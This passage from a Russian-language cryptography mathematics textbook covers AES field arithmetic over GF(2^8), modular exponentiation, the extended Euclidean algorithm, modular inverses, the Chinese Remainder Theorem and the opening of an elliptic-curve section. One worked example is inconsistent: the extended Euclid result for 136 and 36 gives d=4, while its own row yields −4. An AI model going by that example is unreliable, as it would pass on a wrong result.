Для байта $a$, представленного многочленом $a(x)$, нахождение обратного байта $a^{-1}$ сводится к решению уравнения
    \[ m(x) d(x) + b(x) a(x) = 1. \]
Если такое решение найдено, то многочлен $b(x) \mod m(x)$ является представлением обратного байта $a^{-1}$. Обратный элемент (байт) может быть найден с помощью расширенного алгоритма Евклида для многочленов.

\example
Найти байт, обратный байту $a = \mathrm{'C1'}$, в шестнадцатеричной записи. Так как $a(x) = x^{7} + x^{6} + 1$, то с помощью расширенного алгоритма Евклида находим
    \[ (x^{8} + x^{4} + x^{3} + x + 1) (x^{4} + x^{3} + x^{2} + x + 1) + (x^{7} + x^{6} + 1) (x^{5} + x^{3}) = 1. \]
Таким образом, обратный элемент поля, или обратный байт $\mathrm{'C1'}$, равен
    \[ x^{5} + x^{3} = a^{-1} = \mathrm{'00101000'} = \mathrm{'28'}. \]
\exampleend

\example
В алгоритме блочного шифрования AES байты рассматриваются как элементы поля Галуа $\GF{2^8}$. Сложим байты $\mathrm{'57'}$ и $\mathrm{'83'}$. Представляя их многочленами, находим:
    \[ (x^6 + x^4 + x^2 + x + 1) + (x^7 + x + 1) = x^7 + x^6 + x^4 + x^2, \]
или в двоичной записи --
    \[ 01010111 \oplus 10000011 = 11010100 = \mathrm{'D4'}. \]
Получили $\mathrm{'57'} + \mathrm{'83'} = \mathrm{'D4'}$.
\exampleend

\example
Выполним в поле $\GF{2^8}$, заданном неприводимым многочленом
    \[ m(x) = x^8 + x^4 + x^3 + x + 1 \]
(из алгоритма AES), операции с байтами: $\mathrm{'FA'} \cdot \mathrm{'A9'} + \mathrm{'E0'}$, где
    \[ FA = 11111010, ~ A9 = 10101001, ~ E0 = 11100000, \]
    \[ (x^7 + x^6 + x^5 + x^4 + x^3  +x)(x^7 + x^5 + x^3 + 1) + (x^7 + x^6 + x^5) \mod m(x) = \]
    \[ = x^{14} + x^{13} + x^{10} + x^{8} + x^7 + x^3 + x \mod m(x) = \]
    \[ = (x^{14} + x^{13} + x^{10} + x^{8} + x^7 + x^3 + x) + x^6 \cdot m(x) \mod m(x) = \]
    \[ = x^{13} + x^9 + x^8 + x^6 + x^3 + x \mod m(x) = \]
    \[ = (x^{13} + x^9 + x^8 + x^6 + x^3 + x) + x^5 \cdot m(x) \mod m(x) = \]
    \[ = x^5 + x^3 + x \mod m(x) = \mathrm{'2A'}. \]
\exampleend


\subsection{Операции над вектором из байтов в AES}
%\subsection{Многочлены над полем в алгоритме AES}

Поле $\GF{2^{nk}}$ можно задать как расширение степени $nk$ базового поля $\GF{2}$:
    \[ \alpha \in \GF{2^{nk}}, ~ \alpha = \sum\limits_{i=0}^{nk-1} a_i x^i, ~ a_i \in \GF{2} \]
с неприводимым многочленом $r(x)$ степени $nk$ над полем $\GF{2}$,
    \[ r(x) = \sum\limits_{i=0}^{nk} a_i x^i, ~ a_i \in \GF{2}, ~ a_{nk} = 1. \]

Поле $\GF{2^{nk}}$ можно задать и как расширение степени $k$ базового поля $\GF{2^n}$:
    \[ \alpha \in \GF{(2^n}^k), ~ \alpha = \sum\limits_{i=0}^{k-1} a_i x^i, ~ a_i \in \GF{2^n} \]
с неприводимым многочленом $r(x)$ степени $k$ над полем $\GF{2^n}$,
    \[ r(x) = \sum\limits_{i=0}^{k} a_i x^i, ~ a_i \in \GF{2^n}, ~ a_k = 1. \]

\example
В таблице~\ref{tab:irreducible-gf8} приведены примеры приводимых и неприводимых многочленов над полем $\GF{2^8}$.
\begin{table}[!ht]
    \centering
    \caption{Примеры многочленов над полем $\GF{2^8}$\label{tab:irreducible-gf8}}
    \begin{tabular}{|c|c|}
        \hline
        Многочлен & Разложение \\
        \hline
        $\mathrm{'01'} x + \mathrm{'00'}$ & неприводимый \\
        $\mathrm{'01'} x + \mathrm{'01'}$ & неприводимый \\
        $\mathrm{'01'} x + \mathrm{'A9'}$ & неприводимый \\
        $\mathrm{'01'} x^2 + \mathrm{'00'} x + \mathrm{'00'}$ & $(\mathrm{'01'} x) \cdot (\mathrm{'01'} x)$ \\
        $\mathrm{'1D'} x^2 + \mathrm{'AF'} x + \mathrm{'52'}$ & $(\mathrm{'41'} x + \mathrm{'0A'}) \cdot (\mathrm{'E3'} x + \mathrm{'5A'})$ \\
        $\mathrm{'01'} x^4 + \mathrm{'01'}$ & $(\mathrm{'01'} x + \mathrm{'01'})^4$ \\
        \hline
    \end{tabular}
\end{table}
\exampleend

В алгоритме AES вектор-столбец $\mathbf{a}$ состоит из четырёх байтов $a_{0}, a_{1}, a_{2}, a_{3}$. Ему ставится в соответствие многочлен $\mathbf{a}(y)$ от переменной $y$ вида:
    \[ \mathbf{a}(y) = a_{3}y^{3}+a_{2}y^{2}+a_{1}y+a_{0}, \]
причём коэффициенты многочлена (байты) интерпретируются как элементы поля $\GF{2^{8}}$. Это значит, что при сложении или умножении двух таких многочленов их коэффициенты складываются и перемножаются, как определено выше.

Многочлены $\mathbf{a}(y)$ и $\mathbf{b}(y)$ умножаются по модулю многочлена
    \[ \mathbf{M}(y)= \mathrm{'01'} y^4 + \mathrm{'01'} = y^4 + 1, ~ \mathrm{'01'} \in \GF{2^8}, \]
    \[ \mathbf{M}(y)= (\mathrm{'01'}, \mathrm{'00'},\mathrm{'00'}, \mathrm{'00'}, \mathrm{'01'}), \]
который \emph{не} является неприводимым над $\GF{2^8}$.
%Следовательно, многочлен $\mathbf{a}(y)$ задаёт многочлен третьей степени над полем $\GF{2^8}$, но не является элементом поля $\GF{2^{32}}$.

Операция умножения по модулю $\mathbf{M}(y)$ обозначается $\otimes$:
    \[ \mathbf{a}(y) ~ \mathbf{b}(y) \mod \mathbf{M}(y) ~\equiv~ \mathbf{a}(y) \otimes \mathbf{b}(y). \]

Операция <<перемешивание столбца>> в шифровании AES состоит в умножении многочлена столбца на
    \[ \mathbf{c}(y) = (03, 01, 01, 02) = \mathrm{'03'} y^3 + \mathrm{'01'} y^2 + \mathrm{'01'} y + \mathrm{'02'} \]
по модулю $\mathbf{M}(y)$. Многочлен $\mathbf{c}(y)$ имеет обратный многочлен
    \[ \mathbf{d}(y) = \mathbf{c}^{-1}(y) \mod \mathbf{M}(y) = (\mathrm{0B}, \mathrm{0D}, \mathrm{09}, \mathrm{0E}) = \]
        \[ = \mathrm{'0B'} y^3 + \mathrm{'0D'} y^2 + \mathrm{'09'} y + \mathrm{'0E'}, \]
    \[ \mathbf{c}(y) \otimes \mathbf{d}(y) = (00, 00, 00, 01) = 1. \]
При расшифровании выполняется умножение на $\mathbf{d}(y)$ вместо $\mathbf{c}(y)$.

Так как
    \[ y^j = y^{j \mod 4} \mod y^4+1, \]
где коэффициенты из поля $\GF{2^8}$, то произведение многочленов
    \[ \mathbf{a}(y) = a_{3}y^{3}+ a_{2}y^{2} + a_{1}y + a_{0} \]
и
    \[ \mathbf{b}(y) = b_{3}y^{3} + b_{2}y^{2} + b_{1}y + b_{0}, \]
обозначаемое как
    \[ \mathbf{f}(y) = \mathbf{a}(y) \otimes \mathbf{b}(y) = f_{3}y^{3} + f_{2}y^{2} + f_{1}y + f_{0}, \]
содержит коэффициенты
\[
    \begin{array}{ccccccccc}
        f_{0} & = & a_{0}b_{0} & + & a_{3}b_{1} & + & a_{2}b_{2} & + & a_{1}b_{3}, \\
        f_{1} & = & a_{1}b_{0} & + & a_{0}b_{1} & + & a_{3}b_{2} & + & a_{2}b_{3}, \\
        f_{2} & = & a_{2}b_{0} & + & a_{1}b_{1} & + & a_{0}b_{2} & + & a_{3}b_{3}, \\
        f_{3} & = & a_{3}b_{0} & + & a_{2}b_{1} & + & a_{1}b_{2} & + &  a_{0}b_{3}.
    \end{array}
\]

Эти соотношения можно переписать также в матричном виде:
\[
    \begin{array}{cccc}
        \left[ \begin{array}{c}
            f_{0} \\
            f_{1} \\
            f_{2} \\
            f_{3}
        \end{array} \right] &  = & \left[\begin{array}{cccc}
            a_{0} & a_{3} & a_{2} & a_{1} \\
            a_{1} & a_{0} & a_{3} & a_{2} \\
            a_{2} & a_{1} & a_{0} & a_{3} \\
            a_{3} & a_{2} & a_{1} & a_{0}
        \end{array}\right] & \left[\begin{array}{c}
            b_{0} \\
            b_{1} \\
            b_{2} \\
            b_{3}
        \end{array} \right]
    \end{array}.
\]

Умножение матриц производится в поле $\GF{2^8}$. Матричное представление полезно, если нужно умножать фиксированный вектор на несколько различных векторов.

\example
Вычислим для $\mathbf{a}(y) = (\mathrm{F2}, \mathrm{7E}, \mathrm{41}, \mathrm{0A})$ произведение $\mathbf{a}(y) \otimes \mathbf{c}(y)$:
\[
    \mathbf{c}(y) = (03, 01, 01, 02),
\] \[
    \mathbf{d}(y) = \mathbf{c}^{-1}(y) \mod \mathbf{M}(y) = (\mathrm{0B}, \mathrm{0D}, \mathrm{09}, \mathrm{0E}).
\] \[
    \mathbf{a}(y) \otimes \mathbf{c}(y) =
    \left[ \begin{array}{cccc}
        \mathrm{0A} & \mathrm{F2} & \mathrm{7E} & \mathrm{41} \\
        \mathrm{41} & \mathrm{0A} & \mathrm{F2} & \mathrm{7E} \\
        \mathrm{7E} & \mathrm{41} & \mathrm{0A} & \mathrm{F2} \\
        \mathrm{F2} & \mathrm{7E} & \mathrm{41} & \mathrm{0A} \\
    \end{array} \right] \cdot
    \left[ \begin{array}{c} \mathrm{02} \\ \mathrm{01} \\ \mathrm{01} \\ \mathrm{03} \end{array} \right] =
\] \[
    \left[ \begin{array}{ccccccc}
        \mathrm{0A} \cdot \mathrm{02} & \oplus & \mathrm{F2} & \oplus & \mathrm{7E} & \oplus & \mathrm{41} \cdot \mathrm{03} \\
        \mathrm{41} \cdot \mathrm{02} & \oplus & \mathrm{0A} & \oplus & \mathrm{F2} & \oplus & \mathrm{7E} \cdot \mathrm{03} \\
        \mathrm{7E} \cdot \mathrm{02} & \oplus & \mathrm{41} & \oplus & \mathrm{0A} & \oplus & \mathrm{F2} \cdot \mathrm{03} \\
        \mathrm{F2} \cdot \mathrm{02} & \oplus & \mathrm{7E} & \oplus & \mathrm{41} & \oplus & \mathrm{0A} \cdot \mathrm{03} \\
    \end{array} \right] =
    \left[ \begin{array}{c} \mathrm{5B} \\ \mathrm{F8} \\ \mathrm{BA} \\ \mathrm{DE} \end{array} \right];
\] \[
    \begin{array}{l}
        \mathbf{a}(y) \otimes \mathbf{c}(y) = \mathbf{b}(y), \\
        \mathbf{b}(y) \otimes \mathbf{d}(y) = \mathbf{a}(y); \\
    \end{array}
\] \[
    \begin{array}{ccccc}
        (\mathrm{F2}, \mathrm{7E}, \mathrm{41}, \mathrm{0A}) & \otimes & (\mathrm{03}, \mathrm{01}, \mathrm{01}, \mathrm{02}) & = & (\mathrm{DE}, \mathrm{BA}, \mathrm{F8}, \mathrm{5B}), \\
        (\mathrm{DE}, \mathrm{BA}, \mathrm{F8}, \mathrm{5B}) & \otimes & (\mathrm{0B}, \mathrm{0D}, \mathrm{09}, \mathrm{0E}) & = & (\mathrm{F2}, \mathrm{7E}, \mathrm{41}, \mathrm{0A}). \\
    \end{array}
\]
\exampleend

\index{шифр!AES|)}


\section{Модульная арифметика}\label{section-modular-arithmetic}
\selectlanguage{russian}

\subsection{Сложность модульных операций}

Криптосистемы с открытым ключом, как правило, построены в модульной арифметике с длиной модуля от сотни до нескольких тысяч разрядов. Сложность алгоритмов оценивают как количество битовых операций в зависимости от длины. В таблице~\ref{tab:mod-binary-complexity} приведены оценки (с точностью до порядка) сложности модульных операций\index{битовая сложность} для простых (или <<школьных>>) алгоритмов вычислений. На самом деле, для реализации арифметики длинных чисел (сотни или тысячи двоичных разрядов) следует применять существенно более эффективные (более <<хитрые>>) алгоритмы вычислений, использующие, например, специальный вид быстрого преобразования Фурье и другие приёмы.

\begin{table}[!ht]
    \centering
    \caption{Битовая сложность операций по модулю $n$ длиной $k= \log n$ бит\label{tab:mod-binary-complexity}}
    \begin{tabular}{| p{0.7\textwidth} | c |}
        \hline
        Операция, алгоритм & Сложность \\
        \hline
        1. $a \pm b \mod n$ & $O(k)$ \\
        2. $a \cdot b \mod n$ & $O(k^2)$ \\
        3. $\gcd(a, b)$, алгоритм Евклида & $O(k^2)$ \\
        4. $(a,b) \rightarrow (x,y,d) : ax + by = d = \gcd(a,b)$, расширенный алгоритм Евклида & $O(k^2)$ \\
        5. $a^{-1} \mod n$, расширенный алгоритм Евклида & $O(k^2)$ \\
        6. Китайская теорема об остатках & $O(k^2)$ \\
        7. $a^b \mod n$ & $O(k^3)$ \\
        \hline
    \end{tabular}

\end{table}

\subsection{Возведение в степень по модулю}

Рассмотрим два метода для возведения числа $a$ в степень $b$ по модулю $n$ (см.~\cite[9.3.1. Простые двоичные схемы]{Crandall:Pomerance:2011}). Оба этих метода основываются на разложении показателя $b$ в двоичное представление:

\begin{equation}
	\begin{array}{l}
		b = \sum\limits_{i=1}^{k} b_i 2^i, \\
		b_i \in \{0, 1\}.
	\end{array}
	\label{eq:power-mod-b}
\end{equation}

\subsubsection{Схема <<слева направо>>}

Алгоритм~\ref{alg:power-mod-left-to-right} сводится к вычислению следующей формулы:
\[ c = \left( \left( \left( \left( \left( 1 \cdot a^{b_k} \right)^2 \cdot a^{b_{k-1}} \right)^2 \cdot a^{b_{k-2}} \right)^2 \dots \right)^2 \cdot a^{b_2} \right)^2 \cdot a^{b_1} \mod n.\]

\begin{algorithm}[iht]
	\caption{Простая двоичная схема возведения в степень типа <<слева направо>>\label{alg:power-mod-left-to-right}}
	\begin{algorithmic}
		\STATE $c := a$;
		\FOR{ $i := k-1$ \TO $1$}
			\STATE $c := c^2 \mod n$;
			\IF { $\left( b_i == 1 \right)$ }
				\STATE $c := c \cdot a \mod n$;
			\ENDIF
		\ENDFOR
		\RETURN $c$;
	\end{algorithmic}
\end{algorithm}

Алгоритм требует $k-1$ возведений в квадрат и $t-1$ умножений, где $t$~--- количество единиц в двоичном представлении показателя степени. Так как возведение в квадрат можно сделать примерно в два раза быстрее, чем умножение на произвольное число, то, например, в криптосистеме RSA\index{криптосистема!RSA} показатель степени стараются выбрать таким образом, чтобы в его двоичной записи было мало бит, отличных от ноля: $3_{10} = 11_{2}$ или $65537_{10} = 10000000000000001_{2}$.

\example Посчитаем с помощью простой двоичной схемы возведения в степень типа <<слева направо>> значение $175^{235} \mod 257$. Представим число $235$ в двоичном виде:
\[ 235_{10} = 11101011_{2}.\]
Полное выражение для вычисления имеет вид:
\[ c = (((((((1 \cdot a^1)^2 \cdot a^1)^2 \cdot a^1)^2 \cdot a^0)^2 \cdot a^1)^2 \cdot a^0)^2 \cdot a^1)^2 \cdot a^1 \mod 257.\]

\begin{enumerate}
	\item $c := 175$;
	\item $c := 175^2 \mod 257 = 42; $\\
		$c := 42 \times 175 \mod 257 = 154;$
	\item $c := 154^2 \mod 257 = 72; $\\
		$c := 72 \times 175 \mod 257 = 7;$
	\item $c := 7^2 \mod 257 = 49; $
	\item $c := 49^2 \mod 257 = 88; $\\
		$c := 88 \times 175 \mod 257 = 237;$
	\item $c := 237^2 \mod 257 = 143; $
	\item $c := 143^2 \mod 257 = 146; $\\
		$c := 146 \times 175 \mod 257 = 107;$
	\item $c := 107^2 \mod 257 = 141; $\\
		$c := 141 \times 175 \mod 257 = 3;$
	\item Ответ: 3. Потребовалось 7 возведений в квадрат и 5 умножений.
\end{enumerate}
\exampleend

Алгоритм можно обобщить на использование произвольного основания разложения степени. Например, использование основания, являющегося степенью двойки, будет являться методом улучшения описанной выше схемы под названием <<просматривание>> (\langen{windowing}, см.~\cite[9.3.2. Улучшение схем возведение в степень]{Crandall:Pomerance:2011}). Если в качестве основания выбрать $s = 4$, то формула из примера выше для вычисления $175^{235} \mod 257$ принимает вид:
\[\begin{array}{l}
	235_{10} = 3223_{4}; \\
	c = \left(\left(\left( 1 \cdot 175^3 \right)^4 \cdot 175^2 \right)^4 \cdot 175^2 \right)^4 \cdot 175^3 \mod 257.
\end{array}\]

Для вычисления уже потребуется $3 \times 2 = 6$ возведений в квадрат и $3$ умножения. Но сначала потребуется вычислить значения $175^2 \mod 257$ и $175^3 \mod 257$. Для больших показателей степени $n$ выгода в количестве умножений будет очевидна.

\subsubsection{Схема <<справа налево>>}
Другим вариантом является схема типа <<справа налево>> (см. алгоритм~\ref{alg:power-mod-right-to-left}). Она также основывается на разложении показателя степени по степеням двойки~\ref{eq:power-mod-b}. Её можно представить следующей формулой:

\[\begin{array}{ll}
c & = a^b = \\
  & = a^{\sum b_i 2^{i-1}} = \\
  & = a^{b_1} \times a^{(b_2 2)} \times a^{(b_3 2^2)} \times a^{(b_4 2^3)} \times \dots \times a^{(b_k 2^{k-1})} = \\
  & = a^{b_1} \times \left(a^2\right)^{b_2} \times \left(a^4\right)^{b_3} \times \left(a^8\right)^{b_4} \times \dots \times \left(a^{2^{k-1}}\right)^{b_k} = \\
  & = \prod\limits_{i=1}^{k} \left(a^{2^{i-1}}\right)^{b_i}
\end{array}\]

\begin{algorithm}[iht]
	\caption{Простая двоичная схема возведения в степень типа <<справа налево>>\label{alg:power-mod-right-to-left}}
	\begin{algorithmic}
		\STATE $c := 1$;
		\STATE $t := a$;
		\FOR{ $i := 1$ \TO $k$ }
			\IF { $\left( b_i == 1 \right)$ }
				\STATE $c := c \cdot t \mod n$;
			\ENDIF
			\STATE $t := t^2 \mod n$;
		\ENDFOR
		\RETURN $c$.
	\end{algorithmic}
\end{algorithm}

\example Посчитаем с помощью простой двоичной схемы возведения в степень типа <<справа налево>> значение $175^{235} \mod 257$. Представим число $235$ в двоичном виде:
\[ 235_{10} = 11101011_{2}.\]
\begin{enumerate}
	\item $ c := 1 \times 175 \mod 257 = 175$, \\
		$ t:= 175^2 \mod 257 = 42$;
	\item $ c := 175 \times 42 \mod 257 = 154$, \\
		$ t:= 42^2 \mod 257 = 222$;
	\item $ t:= 222^2 \mod 257 = 197$;
	\item $ c := 154 \times 197 \mod 257 = 12$, \\
		$ t:= 197^2 \mod 257 = 2$;
	\item $ t:= 2^2 \mod 257 = 4$;
	\item $ c := 12 \times 4 \mod 257 = 48$, \\
		$ t:= 4^2 \mod 257 = 16$;
	\item $ c := 48 \times 16 \mod 257 = 254$, \\
		$ t:= 16^2 \mod 257 = 256$;
	\item $ c := 254 \times 256 \mod 257 = 3$.
	\item Ответ: 3. Потребовалось 7 возведений в квадрат и 5 умножений.
\end{enumerate}
\exampleend

\subsection{Алгоритм Евклида}\index{алгоритм!Евклида}
\selectlanguage{russian}

Рекурсивная форма алгоритма Евклида вычисления $\gcd(a,b)$ имеет следующий вид:
    \[\set(a,b): a>b;  \gcd(a,b) = \gcd(b, a \mod b). \]
Редуцирование чисел продолжается, пока не получим
    \[ a \mod b = 0, \]
тогда $b$ и будет искомым НОД.

\example
Вычислим $\gcd(56, 35)$:
\[ \begin{array}{ll}
    \gcd(56, 35) & =~ \gcd(35, ~ 56 \mod 35 = 21) ~= \\
    & =~ \gcd(21, ~ 35 \mod 21 = 14) ~= \\
    & =~ \gcd(14, ~ 21 \mod 14 = 7) ~= \\
    & =~ \gcd(7, ~ 14 \mod 7 = 0) ~= \\
    & =~ 7. \\
\end{array} \]
\exampleend


\subsection{Расширенный алгоритм Евклида}\index{алгоритм!Евклида!расширенный}

\textbf{Расширенный алгоритм Евклида} (см., например,~\cite[8.8 Наибольшие общие делители и алгоритм Евклида]{Aho:1979}) для целых $a, b, a > b$ находит
    \[ x, y, d = \gcd(a,b): ax + by = d. \]

Введём обозначения: $g_i$ -- частное от деления, $r_i$ -- остаток от деления на $i$-ом шаге. Алгоритм:

\[\begin{array}{ll}
	r_{-1} & := a, \\
	r_0 & := b, \\
	y_0 & := x_{-1} := 1, \\
	y_{-1} & := x_0 := 0. \\
\end{array}\]

\[\begin{array}{ll}
	g_i & := \left\lfloor r_{i-2} / r_{i-1} \right\rfloor, \\
	r_i & := r_{i-2} - g_i \times r_{i-1}, \\
	y_i & := y_{i-2} - g_i \times y_{i-1} , \\
	x_i & := x_{i-2} - g_i \times x_{i-1} . \\
\end{array}\]

Алгоритм останавливается, когда $r_i = 0$.

%Вычисление осуществляется точно так же, как и в обычном алгоритме Евклида, только на каждой итерации дополнительно находится частное и остаток от деления.

\example
В табл.~\ref{tab:extended-euclid} приведён числовой пример алгоритма для $a=136, b=36$.
\begin{table}[!ht]
    \centering
    \caption{Пример расширенного алгоритма Евклида для \\ $a=136, b=36$\label{tab:extended-euclid}}
    \begin{tabular}{|r|r|r|r|r|rrr|}
        \hline
        $i$ & $g_i$ & $r_i$ & $x_i$ & $y_i$ & & & \\
        \hline
        $-1$ &  --- & $136$ &   $1$ &   $0$ & $136 =$ & $ 1 \cdot 136$ & $ + 0 \cdot 36$ \\
	 $0$ &  --- &  $36$ &   $0$ &   $1$ &  $36 =$ & $ 0 \cdot 136$ & $ + 1 \cdot 36$ \\
	 $1$ &  $3$ &  $28$ &  $+1$ &  $-3$ &  $28 =$ & $+1 \cdot 136$ & $ - 3 \cdot 36$ \\
	 $2$ &  $1$ &   $8$ &  $-1$ &  $+4$ &   $8 =$ & $-1 \cdot 136$ & $ + 4 \cdot 36$ \\
	 $3$ &  $3$ &   $4$ &  $+5$ & $-19$ &  $-4 =$ & $+5 \cdot 136$ & $- 19 \cdot 36$ \\
	 $4$ &  $2$ &   $0$ &   --- &   --- & & & --- \\
        \hline
    \end{tabular}
\end{table}
Найдено $x = 5, ~ y = -19, ~ d = 4$.
\exampleend

\subsection[Нахождение мультипликативного обратного]{Нахождение мультипликативного \protect\\ обратного по модулю}

Расширенный алгоритм Евклида можно использовать для вычисления обратного элемента\index{обратный элемент}: для заданных $a, n$ найти $x, y, d = \gcd(a,n): ax + ny = d$. Пусть $a,n$ -- взаимно простые, тогда
\[\begin{array}{l}
	ax + ny = 1, \\
	ax \equiv 1 \mod n, \\
	x \equiv a^{-1} \mod n. \\
\end{array}\]

\example
В табл.~\ref{tab:extended-euclid-inverse} приведён числовой пример вычисления расширенным алгоритмом Евклида для $a=142, b=33$ обратных элементов $33^{-1} \equiv -43 \mod 142$ и $142^{-1} \equiv 10 \mod 33$.

\begin{table}[!ht]
    \centering
    \caption{Пример вычисления обратных элементов $33^{-1} \equiv -43 \mod 142$ и $142^{-1} \equiv 10 \mod 33$ из уравнения $142 x + 33 y = 1$ расширенным алгоритмом Эвклида\label{tab:extended-euclid-inverse}}
    \begin{tabular}{|r|r|r|r|r|rrr|}
        \hline
        $i$ & $g_i$ & $r_i$ & $x_i$ & $y_i$ & & & \\
        \hline
        $-1$ &  --- & $142$ &   $1$ &   $0$ & $142 =$ & $  1 \cdot 142$ & $ + 0 \cdot 33$ \\
	 $0$ &  --- &  $33$ &   $0$ &   $1$ &  $33 =$ & $  0 \cdot 142$ & $ + 1 \cdot 33$ \\
	 $1$ &  $4$ &  $10$ &  $+1$ &  $-4$ &  $10 =$ & $ +1 \cdot 142$ & $ - 4 \cdot 33$ \\
	 $2$ &  $3$ &   $3$ &  $-3$ & $+13$ &   $3 =$ & $ -3 \cdot 142$ & $+ 13 \cdot 33$ \\
	 $3$ &  $3$ &   $1$ & $+10$ & $-43$ &   $1 =$ & $+10 \cdot 142$ & $- 43 \cdot 33$ \\
	 $4$ &  $3$ &   $0$ &   --- &   --- & & & --- \\
        \hline
    \end{tabular}
\end{table}
\exampleend

Битовая сложность вычисления обратного элемента для $k$-битового $n$ имеет порядок $O(k^2)$. Если известно разложение числа $n$ на множители, то по теореме Эйлера
    \[ a^{-1} = a^{\varphi(n) - 1} \mod n \]
и вычисление обратного элемента реализуется с битовой сложностью $O(k^3),~ k = \lceil \log_2 n \rceil$. Сложность вычислений по этому алгоритму можно уменьшить, если известно разложение на сомножители числа $\varphi(n) - 1$.


\subsection{Китайская теорема об остатках}
\selectlanguage{russian}

Пусть
    \[ n = \prod\limits_{i=1}^{r} n_i, ~ \gcd(n_i, n_j) = 1. \]

 \textbf{Китайская теорема об остатках}\index{теорема!китайская об остатках} (Chinese Remainder Theorem, CRT) для взаимно простых $\gcd(n_i,n_j) = 1, ~ i \neq j$, утверждает:
\begin{enumerate}
    \item Между
        \[ a \mod n \]
        и вектором
        \[ (a_1 = a \mod n_1, ~~ a_2 = a \mod n_2,  \dots,  a_r = a \mod n_r) \]
        существует взаимно однозначное соответствие.
    \item Сохраняются операции сложения и умножения:
        \[ (a \pm b \mod n) ~\Leftrightarrow~ (a_1 \pm b_1 \mod n_1,  \dots,  a_r \pm b_r \mod n_r), \]
        \[ (a b \mod n) ~\Leftrightarrow~ (a_1 b_1 \mod n_1,  \dots,  a_r b_r \mod n_r). \]
\end{enumerate}

Китайская теорема означает, что
    \[ a \mod n ~~\equiv~~ (a \mod n_1, ~ a \mod n_2, ~ \dots, ~ a \mod n_r), \]
и все вычисления по $\mod n$ (сложение, умножение, вычисление обратного элемента) эквиваленты вычислениям по $\mod n_i$.

Чтобы от вектора (остатков) перейти к числу, следует произвести следующие вычисления:
        \[ N_i = \frac{n}{n_i}, \]
        \[ M_i = N_i^{-1} \mod n_i, \]
        \[ a = \sum\limits_{i=1}^{r} a_i M_i N_i \mod n. \]
        Для проверки равенства достаточно найти вычет (остаток от деления) последнего уравнения по $\mod n_i$.

        Сложность перехода в векторную форму имеет порядок:
        \[ O(k^2), ~ k = \lceil \log_2 n \rceil. \]
Теорема используется для решения систем линейных модульных уравнений и для ускорения вычислений.

Пусть битовая длина $n$ равна $k$, и пусть все $n_i$ имеют одинаковую битовую длину $k / r$. Тогда операция умножения в векторном виде будет в
    \[ \frac{k^2}{r \left( k \middle/ r \right)^2 } = r \]
раз быстрее.

Операция $c = m^e \mod n$ занимает $O(k^3)$ битовых операций. Если перейти к вычислениям по модулям $n_i$, то возведение в степень можно вычислить в
    \[ \frac{k^3}{r \left( k \middle/ r \right)^3 } = r^2 \]
раз быстрее, коэффициенты результирующего вектора равны
    \[ c_i ~=~ \left( m \mod n_i \right)^{e \mod \varphi(n_i)} \mod n_i, ~ i = 1, \dots, r. \]
Заметим, однако, что для криптографических приложений модули с большим количеством сомножителей применять нельзя из-за катастрофического снижения криптостойкости (снижения сложности разложения модуля на множители).


\subsection[Решение систем линейных уравнений]{Решение систем линейных уравнений}

\example
Решим для примера систему линейных уравнений. Применим CRT и а) для разложения одного уравнения по составному модулю на систему по взаимно простым модулям, и б) для нахождения конечного решения по системе уравнений:
\[
    \begin{cases}
        9 x = 8 \mod 11, \\
        5 x = 7 \mod 12, \\
        x = 5 \mod 6, \\
        122 x = 118 \mod 240; \\
    \end{cases}
    \Rightarrow ~~
    \begin{cases}
        x = 8 \cdot 9^{-1} \mod 11, \\
        x = 7 \cdot 5^{-1} \mod 12, \\
        x = 5 \mod 6, \\
        x = 59 \cdot 61^{-1} \mod 120; \\
    \end{cases}
    \Rightarrow
\] \[
    \Rightarrow ~~
    \begin{cases}
        x = -4 \mod 11, \\
        x = -1 \mod 12, \\
        x = -1 \mod 6, \\
        x = -1 \mod 120; \\
    \end{cases}
    \Rightarrow ~~
    \begin{cases}
        x = -4 \mod 11, \\
        \begin{cases}
            x = -1 \mod 3, \\
            x = -1 \mod 4, \\
        \end{cases} \\
        \begin{cases}
            x = -1 \mod 3, \\
            x = -1 \mod 2, \\
        \end{cases} \\
        \begin{cases}
            x = -1 \mod 8, \\
            x = -1 \mod 3, \\
            x = -1 \mod 5; \\
        \end{cases} \\
    \end{cases}
    \Rightarrow
\] \[
    \Rightarrow ~~
    \begin{cases}
        x = -4 \mod 11, \\
        x = -1 \mod 3, \\
        x = -1 \mod 8, \\
        x = -1 \mod 5. \\
    \end{cases}
\]
Все модули попарно взаимно простые, поэтому применима китайская теорема об остатках:
    \[ n_1 = 11, ~ n_2 = 3, ~ n_3 = 8, ~ n_4 = 5, \]
    \[ n = n_1 n_2 n_3 n_4 = 1320, \]
    \[ N_i = \frac{n}{n_i} ~~ \Rightarrow ~~ N_1 = 120, ~ N_2 = 440, ~ N_3 = 165, ~ N_4 = 264, \]
    \[ M_i = N_i^{-1} \mod n_i, ~~ \Rightarrow ~~ M_1 = 10, ~ M_2 = 2, ~ M_3 = 5, ~ M_4 = 4, \]
    \[ a_1 = -4, ~ a_2 = -1, ~ a_3 = -1, ~ a_4 = -1, \]
    \[ x ~=~ \sum_{i=1}^4 a_i N_i M_i \mod n ~=~ 359 \mod 1320. \]
Ответ: $x ~=~ 359 \mod 1320$.
\exampleend



\input{pseudo-primes}

\section{Группа точек эллиптической кривой над полем}\label{section-math-ec-groups}
\selectlanguage{russian}

\subsection{Группы точек на эллиптических кривых}

Эллиптическая кривая $E$ над полем вещественных чисел записывается в виде уравнения, связывающего координаты $x$ и $y$ точек кривой:

\begin{equation}
    E: ~ y^{2} = x^{3} + ax + b,
    \label{Wer}
\end{equation}
где $a,b \in \R$ -- вещественные числа. Эта форма представления эллиптической кривой называется формой Вейерштрасса.

На кривой определён инвариант:

\begin{equation}
    J(E)=1728\frac{4a^{3} }{4a^{3} +27b^{2} }.
    %\label{Inv}
\end{equation}

Пусть $x_{1} ,x_{2} ,x_{3} $ -- корни уравнения $x^3 + a x + b = 0$. Определим дискриминант $D$ в виде:
    \[ D =(x_1 - x_2)^2 (x_1 - x_3)^2 (x_2 - x_3)^2 = - 16(4 a^3 + 27 b^2). \]

Рассмотрим различные значения дискриминанта $D$ и соответствующие им кривые, которые представлены на рисунках~\ref{fig:elliptic-curve-1},~\ref{fig:elliptic-curve-2},~\ref{fig:elliptic-curve-3}.

\begin{figure}[thb]
	\centering
	\subcaptionbox{$D>0$\label{fig:elliptic-curve-1}}{\includegraphics[height=2cm,keepaspectratio]{pic/elliptic-curve-1}}
	~~~~
	\subcaptionbox{$D=0$\label{fig:elliptic-curve-2}}{\includegraphics[height=2cm,keepaspectratio]{pic/elliptic-curve-2}}
	~~~~
